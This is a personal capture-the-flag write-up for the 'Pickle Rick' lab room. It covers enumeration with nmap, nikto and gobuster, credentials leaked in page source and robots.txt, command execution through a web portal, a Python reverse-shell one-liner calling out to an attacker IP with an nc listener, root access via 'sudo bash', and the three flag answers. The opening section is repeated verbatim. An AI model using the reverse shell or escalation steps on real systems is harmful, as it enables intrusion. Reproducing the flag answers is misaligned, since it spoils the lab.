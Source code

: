 # Notes for Pickle Rick room. Following along with https://www.youtube.com/watch?v=oCAtfcr3iUw&t=147s


Running a nmap scan on the ip: 10.10.98.103

```
nmap -sC -sV -oN nmap/initial 10.10.98.103
```

Port 80 is open so there is a wen/application running. 

Doing a nikto scan to see if there is any hidden folders

```
nikto -host http://10.10.98.103 | tee nikto.log
```

By opening the web application in the browser and view page source you will this:

```
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Trying now gobuster with extensions and wordlist:

```
gobuster dir -u http://10.10.98.103 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
```

By using nikto or gobuster we can see a login page: `/login.php` and `robots.txt`.

On `robots.txt` we get:

```
Wubbalubbadubdub
```

So trying the login with the information gained so far --> Success!

Viewing page source and there is this, maybe to be used??

```
 <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

In the execute prombt I try `ls` and get this:

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

The command `cat` is disabled. But `grep` is there, so using `grep` to match everything on the `Sup3rS3cretPickl3Ingred.txt`:

```
grep . Sup3rS3cretPickl3Ingred.txt
```

and we get:

```
mr. meeseek hair
```

## Tasks

1. What is the first ingredient Rick needs?


Running a nmap scan on the ip: 10.10.98.103

```
nmap -sC -sV -oN nmap/initial 10.10.98.103
```

Port 80 is open so there is a wen/application running. 

Doing a nikto scan to see if there is any hidden folders

```
nikto -host http://10.10.98.103 | tee nikto.log
```

By opening the web application in the browser and view page source you will this:

```
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Trying now gobuster with extensions and wordlist:

```
gobuster dir -u http://10.10.98.103 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
```

By using nikto or gobuster we can see a login page: `/login.php` and `robots.txt`.

On `robots.txt` we get:

```
Wubbalubbadubdub
```

So trying the login with the information gained so far --> Success!

Viewing page source and there is this, maybe to be used??

```
 <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

In the execute prombt I try `ls` and get this:

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

The command `cat` is disabled. But `grep` is there, so using `grep` to match everything on the `Sup3rS3cretPickl3Ingred.txt`:

```
grep . Sup3rS3cretPickl3Ingred.txt
```

and we get:

```
mr. meeseek hair
```

2. Whats the second ingredient Rick needs?

So now we want a reverse shell and poking around we can see that python3 is available:

```
python3 -c "print('hello')"

Output: hello
```

Searching for python3 reverse shell on google, get you here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

Trying the first one

```
export RHOST="10.9.1.13";export RPORT=4242;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
Remember to setup listner:

```
nc -lvnp 4242
```

And we are in!!

Going to `/home/rick/` and doing a `grep . -R` we get the second ingredient:

```
1 jerry tear
```
3. Whats the final ingredient Rick needs?

Apparently the user we reversed into have sudo commands, so by using the command `sudo bash` we are now owning the machine. :) 

Going to the root folder `cd` and checking the files we find the `3rd.txt` and the final ingredient is:

```
fleeb juice
```